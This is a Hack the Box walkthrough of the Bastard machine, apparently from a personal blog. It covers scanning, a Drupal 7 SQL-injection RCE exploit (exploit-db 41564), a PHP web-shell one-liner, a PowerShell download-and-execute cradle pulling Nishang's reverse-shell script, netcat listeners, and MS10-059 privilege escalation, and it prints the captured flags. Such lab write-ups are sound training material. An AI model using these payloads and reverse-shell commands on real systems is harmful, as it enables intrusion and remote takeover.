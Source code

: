 ```yaml
---
title: Bastard - Hack the Box
date: 2024-10-13 12:29:11 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Bastard.png
---
```

---
title: Bastard - Hack the Box
date: 2024-10-13 12:07:03 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Bastard.png
---
---
title: 2024-10-12-Bastard - Hack the Box
date: 2024-10-13 12:01:04 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/2024-10-12-Bastard.png
---
![Image](/assets/Bastard.png)

Bastard is a box that is initially frustrating. This machine tests ones ability to enumerate thoroughly AND simply, transfer files in different ways, and doctor downloaded exploits to suit one's needs. 

### Scan
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-12 07:24 EDT
Nmap scan report for 10.10.10.9
Host is up (0.12s latency).
Not shown: 997 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
49154/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 9.68 seconds



---------------------Starting Nmap Basic Scan---------------------
                                                                            
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-12 07:24 EDT
Nmap scan report for 10.10.10.9
Host is up (0.12s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-generator: Drupal 7 (http://drupal.org)
|_http-server-header: Microsoft-IIS/7.5
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-title: Welcome to Bastard | Bastard
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.53 seconds

```

### Enumeration

![Image](/assets/Screenshot 2024-09-14 at 12.39.22 PM.png)

We are greeted with a login portal when we visit the sight. Trying a few common credentials yield no access, so I opted to look through the `feroxbuster` scan I had running in the background. Most of the directories are off limits with a `403 Error`, meaning that we'll need to find something else.

Doing research, I looked at my `nmap` scan again to see version numbers of the services running. This is a part of the simple, yet thorough enumeration that we need to "make haste slowly." `Microsoft IIS 7.5` didn't yield much compared to what I found for `Drupal 7`, which yielded a RCE vulnerability.

![Image](/assets/Screenshot 2024-09-14 at 12.45.19 PM.png)

We can cross check this with `exploit-db 41564` or `searchsploit Drupal` and sure enough, we've got a script here that uses SQL injection to get the contests of the cache for the current endpoint along with the admin hash and credentials. Then, the script alters the cache to allow file writing, and follows this up by posting a POC at the designated endpoint. 

![Image](/assets/Screenshot 2024-09-14 at 12.51.49 PM.png)
![Image](/assets/Screenshot 2024-09-14 at 1.14.43 PM.png)

We know the URL, and we know that we'll need to use a PHP one-liner to get our remote code execution ability, but we need to figure our where the API endpoint is. `/rest_endpoint` is not available on the box, but `/rest`is! There are two ways to figure this out. Trial and error is how I came upon it, but using a directory busting tool works as well, providing you give it the time!

We want to use the POC instead to write a PHP one-liner that grants us RCE on the machine. So, we can substitute with this in order to make sure our uploaded file works:

`'<?php system($_REQUEST["cmd"]); ?>'`

Also, don't forget to alter the endpoint! The completed script should look like this, with emphasis on the url, endpath, and file:

![Image](/assets/Screenshot 2024-09-14 at 1.31.26 PM.png)

### Initial Access

Before we run our exploit, we also need to make sure that we've installed php-curl on our machine. We can use `apt-get install php-curl`. Now, we can run our exploit with `php 41564.php`

![Image](/assets/Screenshot 2024-09-14 at 1.32.28 PM.png)

We get an endpoint that tells us where the file's been written. When we visit, make sure to bring up the request in Burp, where we can edit our requests in real time. Append your malicious file name with `?cmd=systeminfo`, and we can see that our attempt for RCE has worked!

![Image](/assets/Screenshot 2024-09-14 at 1.38.02 PM.png)

One thing to note... We've got two files noted `session.json` and `user.json`. These provide cookie information and a username and hashed password for the administrator account. We could take these and try to gain access this way, but we've already got a shell... Maybe another day.

Ok, so now, we can call for a real shell, and the easiest way to do this is with Nishang's Invoke-PowerShellTcp, as we're dealing with an x64 Windows Machine and we want as much functionality as possible. Let's edit the file to include the correct parameters for our future listener.

Add `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.4.3 -Port 4444` to the very end of the file. You can copy in the `vim` editor with `yy` and paste with `d`. 

Once we have our file ready, we need to serve it with a Python server from the same directory that it lies, and set up a wrapped listener:

`python3 -m http.server 8000`
`rlwrap nc -nlvp 4444`

Let's get back and use Burp to create our request. MAKE SURE TO URL ENCODE. Additionally, make sure that the spelling is exact when posting the file and path - capitalization and all :

`powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3:8000/Invoke-PowerShellTcp.ps1')`

![Image](/assets/Screenshot 2024-09-14 at 2.44.26 PM.png)

We should get access on our listener.

![Image](/assets/Screenshot 2024-09-14 at 2.44.45 PM.png)

We can navigate to `/Users/dimitris/Desktop` in order to find our user flag.

`USER:d187f6b9f9bc6b5df88b7f607e720776`

### Privilege Escalation

In order to escalate, we can check things out with `ps`  and `systeminfo`. We can also serve an enumeration script from our Kali machine. I like `winpeas` and `winenum`, but for this case, `sherlock` was the best option, as it gave us a list of possible CVE's, which are very common on these lab machines.

Find Sherlock with `locate Sherlock.ps1` and bring it to the working directory. Serve the file with our SMB server this time, and download on the victim machine. Locate `"smbserver.py` first (usually in Impacket) and move it to working directory before running these commands:

`KALI - python3 smbserver.py share /home/li0t/Desktop/HTB/Bastard`
`VICTIM - copy \10.10.14.3\share\Sherlock.ps1`

Now, no matter how hard I tried, I couldn't get permission on the victim machine to download files and run them, so I took a page from Rana Khalil and exported `systeminfo` into the `windows-exploit-suggester` on my Kali machine. To do this, we need to update our tool and query the database. First, copy the script to `pwd`:

`./windows-exploit-suggester.py --update`
`./windows-exploit-suggester.py -d 2024-09-14-mssb.xls -i sysinf.txt`

Now, we can get MS tags for exploits, and run through them to see if any work. 

![Image](/assets/Screenshot 2024-09-14 at 3.22.52 PM.png)

We'll go with this one, MS10-059, as I've tried unsuccessfully with Kernel exploits here before. There is a compiled version that can be found on github [here](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Compiled) Once this is in our working directory, or the same place as our SMB server, we can share between the systems. I think it's important to note, I've only gotten this machine rooted with this .exe file used in this context. Even my privesc scripts of the same type don't register, and I dunno why...

Once we're ready, set up a listener 

`rlwrap nc -nlvp 4445`

Then, go onto the compromised machine and use:

`\10.10.14.3\share\FILE.exe 10.10.14.3 4445`

![Image](/assets/Screenshot 2024-09-14 at 3.38.47 PM.png)

Cooking.

`ROOT:b3056a76131b8c975a906cff1283ba05`

#windows #manual #medium
